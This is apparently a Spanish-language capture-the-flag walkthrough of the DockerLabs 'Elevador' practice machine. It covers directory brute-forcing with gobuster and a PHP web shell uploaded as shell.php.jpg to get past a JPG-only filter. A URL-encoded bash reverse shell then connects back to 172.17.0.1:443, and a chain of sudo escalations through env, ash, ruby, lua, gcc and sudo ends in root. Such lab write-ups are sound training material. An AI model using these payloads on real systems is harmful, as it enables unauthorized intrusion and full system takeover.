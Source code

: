 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![[dockerlabs/facil/elevador/pagina principal 2.png]]
al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![[dockerlabs/facil/elevador/gobuster.png]]

ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes
![[gobuster2.png]]

si ingresamos al primero o sea al uploads nos mandara a una subida de archivos
![[uploads.png]]

como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG
![[pagina principal3.png]]


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió
![[dockerlabs/facil/elevador/subido.png]]

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami
![[comprobando.png]]

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![[conexion.png]]

y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env", 
![[env.png]]
la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh
![[usuario1.png]]

y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash
![[dockerlabs/facil/elevador/usuario2.png]]

y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 
